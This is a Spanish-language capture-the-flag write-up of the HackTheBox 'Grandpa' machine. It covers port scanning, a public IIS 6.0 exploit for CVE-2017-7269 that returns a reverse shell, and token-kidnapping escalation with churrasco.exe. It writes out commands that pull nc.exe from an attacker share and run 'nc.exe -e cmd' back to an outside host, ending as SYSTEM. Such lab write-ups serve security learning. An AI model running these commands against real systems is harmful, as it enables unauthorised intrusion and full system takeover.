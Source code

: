 ```yaml
---
title: HackTheBox - Grandpa
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ISS 6.0 (CVE-2017-7269)', 'Token Kidnapping Local Privilege Escalation (churrasco.exe)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Grandpa/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Grandpa Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **ISS 6.0 (CVE-2017-7269), Token Kidnapping Local Privilege Escalation (churrasco.exe)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Grandpa/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Grandpa/02-versions.png)

>  A diferencia de la Máquina Granny, aquí no tenemos el método **PUT** permitido, pero, tenemos el método `PROPFIND`, po lo que buscaremos algún exploit.
{: .prompt-info }

c. Nos encontramos con este [exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/tree/master)

```bash
❯ python2 rce.py <IP Grandpa> 80 <tun0 IP> 443

❯ nc -lvnp 443                                                                                                                                                                                
Microsoft Windows [Version 5.2.3790]                                                                                                                                                          
(C) Copyright 1985-2003 Microsoft Corp.                                                                                                                                                       
                                                                                                                                                                                              
c:\windows\system32\inetsrv>
```

### Escalada de Privilegios 💹

a. La forma de escalar privilegios es la misma de la Máquina Granny

```bash
❯ ls
churrasco.exe nc.exe
---------------------------------------------------------------
C:\Temp>copy \\10.10.14.18\Share\nc.exe
C:\Temp>copy \\10.10.14.18\Share\churrasco.exe
C:\Temp>dir
09/15/2023  08:14 PM            31,232 churrasco.exe
09/15/2023  08:15 PM            36,528 nc.exe
```

b. Entablamos una reverse shell

```bash
C:\Temp>.\churrasco.exe -d "C:\Temp\nc.exe -e cmd 10.10.14.18 4445"
--------------------------------------------------------------------
❯ nc -lvnp 4445
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```